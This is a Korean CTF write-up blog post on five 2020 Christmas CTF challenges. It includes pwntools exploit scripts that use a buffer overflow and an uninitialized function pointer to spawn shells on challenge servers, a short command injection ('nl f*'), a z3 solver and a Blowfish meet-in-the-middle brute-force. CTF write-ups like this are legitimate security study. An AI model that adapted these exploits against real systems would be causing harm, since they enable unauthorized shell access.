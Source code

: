 ```yaml
---
layout: post
title: 2020 Christmas CTF write-up
categories: ctf-write-up
tags: [ctf]
---
```


## **baby_RudOlPh**

arm 문제라서 나중에 풀어야하지하고 다른 문제들을 먼저 열어봤는데 답이없어서 그냥 이거나풀자했다가 운좋게 퍼블 먹은 문제다.

bof가 발생하는데 get_arm이라는 함수를 보면 인자를 0x1225로 주고 호출할 경우 /bin/sh를 실행시켜주는 루틴이 있었다.

근데 이러한 구성이라면 굳이 get_arm을 호출할 필요없이 이 함수의 내부에 있는 system("/bin/sh")를 호출하면된다.

```python
from pwn import *

p = remote("host4.dreamhack.games", 10159)

p.recvline()
p.send(p64(0x40069C) * 30)

p.interactive()
```

`XMAS{baby_RudOlPh's_ARM_s0_ez!!}`


---


## **picky_eater**

게임을 열심히해서 플래그를 얻었는데 인증이 안됐다. 그래서 계속보는데 디스크립션을 보니 뱀이 먹기 싫은걸 먹으면 티를 낸다고 한다.

그래서 계속 게임을 플레이하면서 뱀을 관찰하는데 아무리봐도 모르겠고 딱봐도 플래그가 solo pricky snake 꼴일 것이기 때문에 브루트포싱을 해봤는데 모든 경우의수를 넣은거 같았지만 인증이 되지 않았따.

그러다가 혹시나하고 이상한거 먹으면 뱀의 몸뚱아리가 안커지는건가 싶어서 하나 둘 세봣는데 내 예상이 맞아서 게임을 계속 플레이하면서 뱀의 몸뚱아리를 세는 작업을 했다...

풀고나니간 팀원분이 아이다로 열어보면 인덱스가 있다고 알려줬다. (원래 문제는 노가다로 풀어야 재밌다.)

`XMAS{$o_P1cky_$n4k3!}`


---


## **Oil system**

첨엔 먼가 좀 복잡해 보여서 안풀고있다가 갑자기 1솔브가 빠르게 나길래 뭔가 해서 봤는데 언인텐이 숨어있었다.

첫글자만 검사하기 때문에 5바이트 커맨드 인젝션이 터진다.

cat으로 플래그를 읽으려했는데 길이가 딸려서 `nl f*`로 읽었다. (근데 생각해보면 sh 입력해서 셸 따고 플래그 읽으면 되는데..)

`XMAS{U5e_Ma11oc_Nex7_tim3_Mr_Kim}`


---


## **Match_Maker**

처음에 이 문제를 보고 취약점이 안보여서 제로데이가 아닌가를 의심했다. leak 같은 경우엔  이름을 입력받을때 read로 받고 strncpy 함수로 복사하는 특이한 동작을 해서 `uninitialized variable` 때문에 쉽게 된다.

rip를 잡는데 조오금 고생을 했는데 아무리봐도 함수 포인터를 조지는 방법 밖에 없고 취약점이 있을만한 부분은 함수 포인터를 넣어주는 곳 밖에 없을거라 생각해서 해당 부분을 유심히 봤다.

```c
__int64 (__fastcall *__fastcall sub_1C82(__int64 a1))()
{
  int v2; // [rsp+8h] [rbp-10h]
  int v3; // [rsp+Ch] [rbp-Ch]
  __int64 (__fastcall *v4)(); // [rsp+10h] [rbp-8h]

  v2 = *(_DWORD *)(a1 + 44) * *(_DWORD *)(a1 + 44);
  v3 = *(_DWORD *)(a1 + 48) * *(_DWORD *)(a1 + 48);
  if ( v2 > v3 )
    v4 = sub_1630;
  if ( v3 > v2 )
    v4 = sub_1486;
  return v4;
}
```

이 부분을 보면 두 if 문에 해당하지 않을 경우 v4에 아무런 값을 넣어주지 않고 그대로 return을 한다. leak 취약점과 마찬가지로 스택이 초기화되어 있지 않기 때문에 이전에 read 함수로 입력받은 값이 v4에 들어가있어서 함수 포인터에 원하는 값을 넣을 수 있게 된다.

저 조건을 구하기 위해선 나이 3개를 입력받을때 적절한 값을 입력해야하는데, z3로 구했다.

```python
from z3 import *

s = Solver()

x = BitVec('x', 32)
y = BitVec('y', 32)
z = BitVec('z', 32)

r1 = BitVec('r1', 32)
r2 = BitVec('r2', 32)
s.add(And(0 < x, x < 18))
s.add(y >= 18)
s.add(z >= 19)

r1 = (x - y) & 0xffffffff
r2 = (z - y) & 0xffffffff
s.add(z > y)
s.add(((r1 * r1) & 0xffffffff) == (r2 * r2) & 0xffffffff)
print(s.check())
print(s.model())
```



그리고 one_gadget들은 다 맞지 않던데 인자로 read 함수에 입력받은 값 앞 부분이 들어가는걸 확인해서 system("sh")를 호출가능했다.

```python
from pwn import *

#p = process('./match')
p = remote("host7.dreamhack.games", 13295)
e = ELF('./match')
libc = e.libc

def make(age, name, minage, maxage, sex, h1, h2, h3):
    p.sendlineafter('> ', '0')
    p.sendlineafter(': ', str(age))
    p.sendafter(': ', name)
    p.sendlineafter(': ', str(minage))
    p.sendlineafter(': ', str(maxage))
    p.sendlineafter('> ', str(sex))
    p.sendafter(': ', h1)
    p.sendafter(': ', h2)
    p.sendafter(': ', h3)

def save():
    p.sendlineafter('> ', '1')

def find():
    p.sendlineafter('> ', '2')

def show():
    p.sendlineafter('> ', '3')


make(0x20, 'A' * 0x8, 0x10, 0x30, 0, 'B' * 0xf, 'C' * 0xf, 'D' * 0xf)
show()

p.recvuntil('A' * 8)
leak = u64(p.recv(6).ljust(8, '\x00')) - 0x6f013 - 0x25000
system = leak + libc.sym['system']

make(748778063, 'sh\x00' + 'A' *  0xd + p64(system), 11, 1073741835, 0, 'B' * 0xf, 'C' * 0xf, 'D' * 0xf)
find()

p.interactive()
```

`XMAS{1_d0n7_w4nna_kn0w_who'5_tak1ng_U_h0me}`


---


## **phantom**

CCE 예선전에서 본 유형인데 그 당시에 코드를 잘못짜서 못풀엇던 기억이 난다.. `Meet-in-the-middle attack` 이고 코드는 이렇게 짰다.

```python
from Crypto.Cipher import Blowfish
import base64

enc = "m6US+8OA+WK1Dl2kLc60Kxp2o3ydWPuXbZK2vBOrQEPTSzH6Od6Qn137Ctn7oLqm7Nb2uvb2wHU="
flag = base64.b64decode(enc)

enc = "QUJDREVGR0g="
enc = base64.b64decode(enc)

dec = "J8LFHyoEuoo="
dec = base64.b64decode(dec)

keya = []
keyb = []
a = []
b = []

for i in range(0xff + 1):
    for j in range(0xff + 1):
        K1 = ('\x9e\x91\x9b\xb3\x3a\xef' + chr(i) + chr(j))
        K2 = (chr(i) + chr(j) + '\xf6\xea\x6d\x93\x7f\x22')

        encbf = Blowfish.new(K1, Blowfish.MODE_ECB)
        decbf = Blowfish.new(K2, Blowfish.MODE_ECB)

        a.append(encbf.encrypt(enc))
        keya.append(K1)
        b.append(decbf.decrypt(dec))
        keyb.append(K2)

print "done"

for i in range(len(a)):
    if a[i] in b:
        keya = keya[i]
        print "get keya"
        print keya.encode("hex")
        break

for i in range(len(b)):
    if b[i] in a:
        keyb = keyb[i]
        print "get keyb"
        print keya.encode("hex")
        break

aaa = Blowfish.new(keya, Blowfish.MODE_ECB)
bbb = Blowfish.new(keyb, Blowfish.MODE_ECB)

flag = bbb.decrypt(flag)
flag = aaa.decrypt(flag)

print flag
```
